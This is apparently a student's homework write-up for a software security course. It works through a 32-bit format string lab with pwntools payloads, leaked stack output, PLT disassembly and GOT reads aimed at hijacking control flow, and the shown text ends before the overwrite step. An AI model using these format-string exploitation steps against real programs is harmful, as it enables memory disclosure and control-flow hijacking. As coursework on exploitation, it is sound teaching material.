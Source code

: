 <center><font size=7>《软件安全》HW03</font></center><br /><div align='right'><font size=4><b>陈希尧</b> 3180103012</font></div>

[TOC]

# Lab

## 01_fmt32

### Hijack control flow

Use a normal FSB string to test the structure

```python
p.send('AAAA' + '.0x%x' * 10 + '.\0')
```

Get the result:

```bash
[DEBUG] Received 0x64 bytes:
    b'AAAA.0xffcfa7cc.0x100.0x8049a62.0x0.0x1.0xf7fbb940.0x41414141.0x2578302e.0x78302e78.0x302e7825.done\n'
```

Find that "AAAA" is the 7th `%x`, so the `buffer` is at `%7$x`.  And notice that. 

Since a `puts("done");` is following the `printf`, we manage to use it to hijack control flow.

```assembly
080490e0 <puts@plt>:
 80490e0:	ff 25 6c c0 04 08    	jmp    *0x804c06c
 80490e6:	68 c0 00 00 00       	push   $0xc0
 80490eb:	e9 60 fe ff ff       	jmp    8048f50 <.plt>
```

Turn to elf for help, find symbol `target_function_3180103012` (got) which is `0x804c0b4`. 

Find their got value respectively:

```python
context.log_level = 'DEBUG'
start()
p.send(p32(puts_got) + b'%7$s' + b'.\0')
switch()
p.send(p32(tar_func_got) + b'%7$s' + b'.\0')
end()
```

Get the result:

```
[DEBUG] Received 0x92 bytes:
    00000000  6c c0 04 08  a0 fc e3 f7  f6 90 04 08  06 91 04 08  │l···│····│····│····│
[DEBUG] Received 0x4a bytes:
    00000000  b4 c0 04 08  06 92 04 08  16 92 04 08  26 92 04 08  │····│····│····│&···│
```
